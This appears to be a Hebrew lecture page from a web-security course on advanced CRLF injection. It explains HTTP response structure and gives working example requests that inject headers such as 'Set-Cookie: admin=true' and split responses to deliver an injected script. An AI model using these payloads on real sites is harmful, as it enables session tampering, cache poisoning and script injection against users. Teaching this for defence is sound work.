

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/5 - תקיפות פרוטוקול HTTP/5.6 - תקיפות CRLF מתקדמות/5.6 - תקיפות CRLF מתקדמות - הרצאה/index.html · generator: mkdocs

# תקיפות CRLF מתקדמות - Advanced CRLF Attacks

## מבוא

הInjection CRLF (Carriage Return Line Feed) היא טכניקת תקיפה שבה התוקף מזריק את התווים `\r\n` לתוך headers HTTP, עוגיות, או הפניות. ברמה הבסיסית, CRLF מאפשרת injection headers. ברמה המתקדמת, היא מובילה לפיצול תגובות (Response Splitting), poisoning cache, ושרשרת תקיפות מורכבת.

## רקע - מבנה תגובת HTTP

תגובת HTTP מורכבת משורת סטטוס, headers, שורה ריקה וגוף:

```http
HTTP/1.1 200 OK\r\n
Content-Type: text/html\r\n
Set-Cookie: session=abc123\r\n
\r\n
<html>body</html>
```

כל שורה מסתיימת ב-`\r\n`. שורה ריקה (`\r\n\r\n`) מפרידה בין הheaders לגוף. הInjection `\r\n` מאפשרת שליטה במבנה זה.

## הInjection CRLF בסיסית

### הInjection בheader Location

```http
GET /redirect?url=https://example.com%0d%0aSet-Cookie:%20admin=true HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 302 Found
Location: https://example.com
Set-Cookie: admin=true
```

ה-`%0d%0a` (encoding URL של `\r\n`) גורם לשבירת שורה בתגובה, והטקסט שאחריו מפורש כheader חדשה.

### הInjection בheader Set-Cookie

```http
GET /page HTTP/1.1
Host: vulnerable-website.com
Cookie: lang=en%0d%0aSet-Cookie:%20admin=true

HTTP/1.1 200 OK
Set-Cookie: lang=en
Set-Cookie: admin=true
```

## פיצול תגובות - HTTP Response Splitting

### העיקרון

אם נזריק `\r\n\r\n` (שורה ריקה), נוכל לסיים את הheaders ולהתחיל גוף תגובה חדש. עם עוד `\r\n`, נוכל ליצור תגובה שנייה שלמה:

```http
GET /redirect?url=x%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
Host: vulnerable-website.com
```

התגובה מהשרת:

```http
HTTP/1.1 302 Found
Location: x

HTTP/1.1 200 OK
Content-Type: text/html

<script>alert(1)</script>
```

הלקוח (או ה-proxy) עלול לפרש זאת כשתי תגובות נפרדות.

### פיצול מלא עם Content-Length

```http
GET /redirect?url=x%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

התגובה:

```http
HTTP/1.1 302 Found
Location: x
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 25

<script>alert(1)</script>
```

ה-Content-Length: 0 בתגובה הראשונה גורם ללקוח לסיים את קריאתה ולהתחיל לקרוא את התגובה השנייה.
